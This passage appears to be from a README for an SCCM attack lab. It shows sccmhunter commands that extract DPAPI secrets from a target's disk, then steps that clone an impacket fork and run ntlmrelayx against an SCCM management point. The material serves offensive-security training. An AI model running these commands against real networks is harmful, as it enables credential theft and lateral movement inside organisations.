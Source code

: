 ```
python3 sccmhunter.py dpapi -u <username> -p <password> -target <10.x.10.11> -disk
```
<div align="center">
<img src="./Screenshots/sccmhunter-dpapi-disk.png" width="800">
</div>

## Bonus Objective<br> Do You Like NTLM Relays?
### Step 1
Clone the Repository
```
git clone https://github.com/Tw1sm/impacket.git --branch feature/sccm-relay
```

### Step 2 
Configure ntlmrelayx.py to target the Management Point
```
python3 ntlmrelayx.py -t http://10.x.10.14/ccm_system_windowsauth/request --sccm --sccm-device <device-name> --sccm-fqdn sccm-mgmt.ludus.domain --http-port 8080 --sccm-server 10.x.10.15 --sccm-sleep 10 -smb2support
```
<div align="center">
<img src="./Screenshots/ntlmrelay.png" width="800">
</div>
